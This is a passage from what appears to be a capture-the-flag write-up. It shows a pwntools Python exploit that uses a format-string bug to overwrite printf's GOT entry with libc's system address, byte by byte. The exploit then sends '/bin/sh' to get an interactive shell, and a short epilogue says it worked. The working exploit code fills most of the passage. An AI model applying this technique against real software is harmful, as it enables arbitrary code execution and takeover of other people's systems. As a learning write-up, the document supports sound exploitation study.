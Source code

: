 ```python
system = libc_base + system_offset

log.success("Libc base address:" + hex(libc_base))
log.success("System address:" + hex(system))

#Overwrite the GOT address of printf with system. This part is tricky bc system is dynamic (ASLR is mean :( )
#We know that the address is of format f7xxx940. Let's set the last part to 0x40 (since f7 is already set)

printf_GOT = 0x804a010
payload3 = "AA"
payload3 += p32(printf_GOT)
payload3 += p32(printf_GOT + 1)
payload3 += p32(printf_GOT + 2)

payload3 += "%50x%11$hhn"
#Time to dynamically compute and write the 2nd byte
system_str = str(hex(system))
#We know we have written 40 bytes already.
second_byte_value = int(hex(system)[6:8], 16)
log.info("2nd part to write: " + hex(second_byte_value))

if second_byte_value < 0x40:
	log.failure("Need to do a wraparound, no thanks!")
	quit()
bytesToWrite = int(second_byte_value - 0x40)
log.info("Trying to write " + str(bytesToWrite) + " bytes")
payload3 += "%"
payload3 += str(bytesToWrite)
payload3 += "x%12$hhn"

#Time to dynamically compute and write the 3rd byte
third_byte_value = int(hex(system)[4:6], 16)
log.info("3rd part to write: " + hex(third_byte_value))

if third_byte_value <= second_byte_value:
	log.failure("Need to do a wraparound for 3rd byte, no thanks!")
	quit()
thirdbytesToWrite = int(third_byte_value - second_byte_value)
log.info("Trying to write " + str(thirdbytesToWrite) + " bytes")
payload3 += "%"
payload3 += str(thirdbytesToWrite)
payload3 += "x%13$hhn"

log.info("Payload 3: " + payload3)
sh.sendline(payload3)

#Send that /bin/sh string over to get that shell!

payload4 = "/bin/sh"
sh.sendline(payload4)
sh.interactive()
```
## Epilogue
This exploit took a few tries to run (because of my laziness). However, it works:
